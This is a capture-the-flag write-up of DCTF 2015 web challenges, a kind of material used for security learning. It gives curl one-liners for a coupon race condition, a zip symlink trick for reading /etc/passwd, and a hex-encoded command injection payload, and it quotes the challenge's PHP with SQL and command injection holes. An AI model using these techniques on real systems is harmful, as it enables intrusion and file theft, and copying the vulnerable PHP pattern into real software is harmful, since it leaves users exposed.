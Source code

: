 ```yaml
---
title:      DCTF 2015 - Web Challenges
author:     fcremo
date:       2015-10-11 09:00:00
summary:    Web web web!
categories: DCTF2015 Web
tags:
 - DCTF
 - Web
---
```

## Web100
This challenge was quite straightforward: we only had a textual input field and the suggestion to use the coupon (DCTF_ADD_MONEY).
That coupon could normally be used just a single time, but the goal was to get more money than a single coupon would give you.
The challenge could be solved using just the shell and a one liner:
```bash
$ curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/" & curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/"
```

## Web200
We had a service that allowed you to upload zip files, decompressed them and let you download the contents. There was a comment in the HTML source: `getent passwd | grep someuser | cut ...` (sorry, I haven't saved the specific command).
I created a zip file containing a simbolic link to `/etc/passwd`:
```bash
$ ln -s /etc/passwd mylink
$ zip archive.zip mylink
```
I uploaded the archive and... nothing, the website didn't display my file.
The service allowed you to see the debug logs of the unzip command executed server side and in the logs I could see my link was being extracted correctly, so I tried to manually download the passwd file manipulating the download url of another archive I uploaded earlier and it worked!

## Web300
Coming soon!

## Web400 (CSS Engineer)
The php code that allowed you to get the user images used `cat`
```bash
$ curl "http://10.13.37.5/?id=2&usr=1"
cat: images/2_6.jpg: No such file or directory
```
 and was vulnerable to command injection.
 because it constructed the path to output from user input without sanitizing it correctly.

Again, this challenge was doable with a one liner:
```bash
$ curl `python2 -c "print 'http://10.13.37.5/?id=0x' + '../*; #'.encode('hex') + '&usr=1"`
```

The reason this works was because id was used in an SQL query and got converted to a string:
```php
if(isset($_GET['id'], $_GET['usr'])) {
    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,...');
	}

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
```
